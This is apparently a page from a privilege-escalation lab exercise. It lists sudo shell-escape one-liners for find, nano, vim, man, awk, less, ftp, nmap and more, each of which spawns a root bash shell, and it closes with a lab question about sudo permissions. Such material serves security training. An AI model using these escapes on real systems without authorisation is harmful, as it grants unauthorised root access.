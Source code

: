 ###### find

`sudo find . -exec /bin/bash \; -quit`

###### nano

`sudo nano`

`^R^X`

`reset; bash 1>&0 2>&0`

###### vim

`sudo vim`

`:!/bin/bash`

###### man

`sudo man man`

`!/bin/bash`

###### awk

`sudo awk 'BEGIN {system("/bin/bash")}'`

###### less

`sudo less /etc/profile`

`!/bin/bash`

###### ftp

`sudo ftp`

`!/bin/bash`

###### nmap

`sudo nmap --interactive`

`!bash`

**OR**

`TF=$(mktemp)`

`echo 'os.execute("/bin/bash")' > $TF`

`sudo nmap --script=$TF`

###### more

`sudo more /etc/profile`

`!/bin/bash`

**Questions**

    1. How many programs is "user" allowed to run via sudo? 
